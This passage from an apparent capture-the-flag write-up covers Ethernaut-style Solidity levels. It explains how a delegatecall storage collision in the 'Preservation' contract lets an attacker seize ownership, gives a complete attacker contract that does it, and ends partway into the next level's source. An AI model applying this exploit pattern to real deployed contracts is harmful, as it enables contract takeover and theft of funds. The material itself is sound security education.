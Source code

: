 ```
}
```

The goal here is to take ownership of the contract. This is an interesting one: there is a bug in this implementation that could break all sorts of things, but we can use it to take ownership.

When `delegatecall` is used, the code of another contract is executed with the memory of the first contract. However, this memory is just binary data, and different contracts might view it differently. When we call `setTime` using their simple `LibraryContract` implementation, this updates the field `storedTime`, which is of type `uint256` and is the *only* field this contract has. When this is called via `delegatecall`, `storeTime` in `LibraryContract`'s context is just the first 256 bits in the contract's memory, which in fact maps over the fields `timeZone1Library` and `timeZone2Library`, which take up 160 bits each (because they are the first two fields).

So, if we call `setFirstTime` or `setSecondTime`, and we encode the address of our own contract into the right part of a `uint256` such that it overwrites `timeZone1Library`, then the next time we call `setFirstTime`, the parent contract will `delegatecall` to code that we control, and we will be able to do whatever we want. We will just need to make sure that we have a method that will be callable with the same method ID as `setTime`, so we will give it the same signature.

I implemented the following contract. Note the two state parameters `rubbishData1` and `rubbishData2`. These are there so that when we write to `owner`, it is mapped to the same part of memory as the victim contract `Preservation`'s variable `owner`. Deploying this contract and calling `attack` completed this level.
```
contract TimeWarp {
    address public rubbishData1;
    address public rubbishData2;
    address public owner;

    function attack(address victim) external {
        // make this contract the timeZone1Library
        Preservation(victim).setFirstTime(uint256(uint160(address(this))));
        // make the victim delegateCall back to this contract
        Preservation(victim).setFirstTime(uint256(uint160(msg.sender)));
    }

    // this method pretends to be 'setTime', but actually changes the owner.
    function setTime(uint256 _time) public {
        owner = address(uint160(_time));
    }
}

interface Preservation {
  function setFirstTime ( uint256 _timeStamp ) external;
}
```

# Level 17: Recovery
```
contract Recovery {
    //generate tokens
    function generateToken(string memory _name, uint256 _initialSupply) public {
        new SimpleToken(_name, msg.sender, _initialSupply);
    }
}

contract SimpleToken {
    string public name;
    mapping(address => uint256) public balances;

    // constructor
    constructor(string memory _name, address _creator, uint256 _initialSupply) {
        name = _name;
```